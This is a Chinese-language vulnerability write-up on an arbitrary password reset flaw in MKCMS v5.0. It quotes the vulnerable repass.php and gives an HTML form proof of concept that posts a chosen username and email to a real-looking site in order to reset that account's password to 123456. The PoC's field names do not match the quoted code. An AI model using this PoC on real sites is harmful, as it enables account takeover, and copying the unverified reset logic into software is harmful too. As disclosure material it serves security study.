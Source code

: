 # MKCMS v5.0 任意密码重置漏洞

### 一、漏洞简介

### 二、漏洞影响

MKCMS v5.0

### 三、复现过程

漏洞出现在/ucenter/repass.php第1-44行:


```php
<?php 
include('../system/inc.php');
if(isset($_SESSION['user_name'])){
header('location:index.php');
};

if(isset($_POST['submit'])){
$username = stripslashes(trim($_POST['name']));
$email = trim($_POST['email']);
// 检测用户名是否存在
$query = mysql_query("select u_id from mkcms_user where u_name='$username' and u_email='$email'");
if(!! $row = mysql_fetch_array($query)){
$_data['u_password'] = md5(123456);
$sql = 'update mkcms_user set '.arrtoupdate($_data).' where u_name="'.$username.'"';
if (mysql_query($sql)) {

$token =$row['u_question'];
include("emailconfig.php");
    //创建$smtp对象 这里面的一个true是表示使用身份验证,否则不使用身份验证.
    $smtp = new Smtp($MailServer, $MailPort, $smtpuser, $smtppass, true); 
    $smtp->debug = false; 
    $mailType = "HTML"; //信件类型，文本:text；网页：HTML
    $email = $email;  //收件人邮箱
    $emailTitle = "".$mkcms_name."用户找回密码"; //邮件主题
    $emailBody = "亲爱的".$username."：<br/>感谢您在我站注册帐号。<br/>您的初始密码为123456<br/>如果此次找回密码请求非你本人所发，请忽略本邮件。<br/><p style='text-align:right'>-------- ".$mkcms_name." 敬上</p>";

    // sendmail方法
    // 参数1是收件人邮箱
    // 参数2是发件人邮箱
    // 参数3是主题（标题）
    // 参数4是邮件主题（标题）
    // 参数4是邮件内容  参数是内容类型文本:text 网页:HTML
    $rs = $smtp->sendmail($email, $smtpMail, $emailTitle, $emailBody, $mailType);
if($rs==true){
echo '<script>alert("请登录到您的邮箱查看您的密码！");window.history.go(-1);</script>';
}else{
echo "找回密码失败";
}

}
}
}

?>
```

本质上来说此处是一个逻辑问题，程序未通过邮箱等验证是否为用户本身就直接先在第13-14行把用户密码重置为123456了，根本没管邮件发送成功没有。

![](images/15891860417610.jpg)


### poc

构造如下poc.html,并访问poc.html，然后用123456密码登录即可


```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://v.micool.top/ucenter/repass.php" method="POST">
      <input type="hidden" name="u&#95;name" value="lduo123" />
      <input type="hidden" name="u&#95;email" value="admin&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>                         
  </body>
</html>
```

参考链接

https://xz.aliyun.com/t/4189#toc-1

https://cisk123456.blogspot.com/2019/04/mkcms-v50.html